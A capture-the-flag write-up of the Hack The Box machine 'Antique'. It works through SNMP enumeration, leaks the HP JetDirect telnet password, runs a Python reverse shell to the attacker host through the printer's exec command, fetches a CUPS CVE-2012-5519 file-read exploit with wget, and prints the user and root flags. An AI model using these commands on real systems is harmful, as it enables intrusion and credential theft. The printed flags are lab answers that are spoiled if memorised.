 ```yaml
---
title: "Antique from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# Antique from HTB
`nmap`gave this
```bash
nmap -sC --min-rate=4000 -T4 10.10.11.107 -Pn

PORT   STATE SERVICE
23/tcp open  telnet
-------------------------------------------------------
sudo nmap -sU --min-rate=4000 -T4 10.10.11.107 -Pn

PORT      STATE  SERVICE
161/udp   open   snmp
-------------------------------------------------------
 sudo nmap -sU -sV --min-rate=4000 -T4 10.10.11.107 -p 161

PORT    STATE SERVICE VERSION
161/udp open  snmp    SNMPv1 server (public)
```
the `(public)`means that we can use `snmpwalk`on it
```bash
snmpwalk -v 1 -c public 10.10.11.107
iso.3.6.1.2.1 = STRING: "HTB Printer"
```
I got nothing more from `snmpwalk`
```bash
telnet 10.10.11.107
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect

Password: admin
Invalid password
Connection closed by foreign host.
```
Searching `HP JedDirect`got me something
https://www.irongeek.com/i.php?page=security/networkprinterhacking
Here is an exploit with `snmpget`which we can use and it will give us `hexed passowrd`
```bash
snmpget -v 1 -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```
This is `hex`and decode it to get password. Go to `CyberChef`and use `From Hex`
```
P@ssw0rd@123!!123	"#%&'01345789BCIPQTWXaetuy	 
```
We got The password, go to `telnet`and connect with this password: `P@ssw0rd@123!!123`
```bash
> ?

To Change/Configure Parameters Enter:
Parameter-name: value <Carriage Return>

Parameter-name Type of value
ip: IP-address in dotted notation
subnet-mask: address in dotted notation (enter 0 for default)
default-gw: address in dotted notation (enter 0 for default)
syslog-svr: address in dotted notation (enter 0 for default)
idle-timeout: seconds in integers
set-cmnty-name: alpha-numeric string (32 chars max)
host-name: alpha-numeric string (upper case only, 32 chars max)
dhcp-config: 0 to disable, 1 to enable
allow: <ip> [mask] (0 to clear, list to display, 10 max)

addrawport: <TCP port num> (<TCP port num> 3000-9000)
deleterawport: <TCP port num>
listrawport: (No parameter required)

exec: execute system commands (exec id)
exit: quit from telnet session
```
the `exec`can execute normal commands so let's try to get shell with python.
https://www.revshells.com/
use `python`ones
this got me connection
```python
exec python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.16.7",1234));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```
***
User Flag is: 577f8cdadeb1458074f296c3de434610
***
```bash
ss -tlnp

LISTEN    0         4096             127.0.0.1:631              0.0.0.0:*
```
lets see what is on `631`port with `curl`
```bash
curl 127.0.0.1:631


<H1>CUPS 1.6.1</H1>
```
We can find exploit for this on `github` https://github.com/p1ckzi/CVE-2012-5519/blob/main/cups-root-file-read.sh
which if we download on `remote machine` and execute we can read `root flag or /etc/shadow`
```bash
wget 10.10.16.7:8001/ragaca.sh
chmod +x ragaca.sh
echo '/root/root.txt' | ./cups-root-file-read.sh
```
***
Root Flag is: 4985b7a44209c17f0eda5d61862a966c
***
![](/assets/images/2024-08-23_18-36-57.png)
